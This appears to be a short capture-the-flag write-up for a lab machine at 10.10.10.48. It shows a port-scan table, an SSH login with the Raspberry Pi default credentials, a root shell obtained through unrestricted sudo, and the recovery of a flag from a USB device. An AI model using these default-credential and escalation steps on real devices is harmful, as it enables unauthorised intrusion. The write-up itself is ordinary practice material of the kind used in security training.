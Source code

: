 
| PORT      | STATE | SERVICE | VERSION                                                       |
| --------- | ----- | ------- | ------------------------------------------------------------- |
| 22/tcp    | open  | ssh     | OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)                  |
|           |       |         | **SSH Hostkeys:**                                             |
|           |       |         | 1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)    |
|           |       |         | 2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)    |
|           |       |         | 256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)   |
|           |       |         | 256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519) |
| 53/tcp    | open  | domain  | dnsmasq 2.76                                                  |
|           |       |         | **DNS Version:**                                              |
|           |       |         | dnsmasq-2.76                                                  |
| 80/tcp    | open  | http    | lighttpd 1.4.35                                               |
|           |       |         | **HTTP Info:**                                                |
|           |       |         | Title: Site doesn't have a title                              |
|           |       |         | Server Header: lighttpd/1.4.35                                |
|           |       |         |                                                               |
| 32400/tcp | open  | http    |                                                               |
|           |       |         |                                                               |
|           |       |         |                                                               |
|           |       |         |                                                               |


# User

```bash
ssh pi@10.10.10.48
raspberry
```


# ROOT

```bash
pi@raspberrypi:~/Desktop $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL


pi@raspberrypi:~/Desktop $ sudo -u root /bin/bash
```

```bash
root@raspberrypi:~# strings /dev/sdb -n 32
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
```